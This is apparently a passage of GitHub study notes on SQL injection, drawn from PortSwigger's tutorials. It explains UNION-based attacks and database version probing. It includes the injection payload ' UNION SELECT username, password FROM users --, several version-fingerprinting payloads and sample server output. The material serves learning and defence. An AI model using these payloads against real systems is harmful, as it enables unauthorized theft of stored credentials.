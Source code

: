 > <hr>

> **SQL Injection UNION Attacks**<br>
> A SQL injection UNION attack allows attackers to retrieve data from other database tables by appending additional queries using the UNION keyword. For the attack to work, the queries must have the same number of columns and compatible data types. To execute this, attackers first determine the number of columns returned by the original query and identify which columns can hold the injected data.<br>
> <br>
> **Expected Behavior:**
> ```sql
> Enter: Gifts
> 
> SELECT name, description FROM products WHERE category = 'Gifts'
> -- List all names and descriptions with 'Gifts' category from 'products' table.
> ```
>
> **Unexpected Malicious Behavior:**
> ```sql
> Enter: ' UNION SELECT username, password FROM users -- 
> 
> SELECT name, description FROM products WHERE category = '' UNION SELECT username, password FROM users -- '
> -- List all names and descriptions with '' category from 'products' table. -> None
> -- (?) AND List all usernames and passwords from 'users' table. -> List all usernames and passwords
> -- (?) AND the comment for this line is: '
> ```
> [https://portswigger.net/web-security/sql-injection#retrieving-data-from-other-database-tables](https://portswigger.net/web-security/sql-injection#retrieving-data-from-other-database-tables)
> <br>
> [https://portswigger.net/web-security/sql-injection/union-attacks](https://portswigger.net/web-security/sql-injection/union-attacks)

> <hr>

> **Examining The Database**<br>
> Test if the database is vulnerable to SQLi.<br>
> <br>
> **Examples:**
> ```sql
> SELECT * FROM v$version
> SELECT * FROM information_schema.tables
> ```
> | Database Type              | Query                                |
> |:---------------------------|:-------------------------------------|
> | Microsoft, MySQL           | ```SELECT @@version```               |
> | Oracle                     | ```SELECT * FROM v$version```        |
> | PostgreSQL                 | ```SELECT version()```               |
>
> **More Examples:**
> ```sql
> ' UNION SELECT @@version--
> ```
>
> ```
> Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
> Mar 18 2018 09:11:49
> Copyright (c) Microsoft Corporation
> Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
> ```
> [https://portswigger.net/web-security/sql-injection#examining-the-database](https://portswigger.net/web-security/sql-injection#examining-the-database)
> <br>